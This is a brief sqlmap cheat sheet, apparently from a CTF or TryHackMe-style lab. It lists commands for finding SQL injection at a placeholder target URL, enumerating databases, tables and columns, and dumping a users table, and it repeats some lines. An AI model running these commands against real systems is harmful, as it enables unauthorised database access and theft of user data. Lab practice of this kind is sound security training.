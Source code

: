 # List tables in a DB
sqlmap -u "http://target.thm/?id=1" -D mydb --tables

# List columns in a table
sqlmap -u "http://target.thm/?id=1" -D mydb -T users --columns

# Dump data from a table
sqlmap -u "http://target.thm/?id=1" -D mydb -T users --dump

```
# Test and find injection
sqlmap -u "http://target.thm/?id=1"

# List databases
sqlmap -u "http://target.thm/?id=1" --dbs

# List tables in a DB
sqlmap -u "http://target.thm/?id=1" -D mydb --tables

# List columns in a table
sqlmap -u "http://target.thm/?id=1" -D mydb -T users --columns

# Dump data from a table
sqlmap -u "http://target.thm/?id=1" -D mydb -T users --dump
```

---

✅ **Tip:** Always run with `--batch` on CTFs or automation to skip questions.

sqlmap -u "http://target.thm/?id=1" --dbs --batch

```
sqlmap -u "http://target.thm/?id=1" --dbs --batch
```

---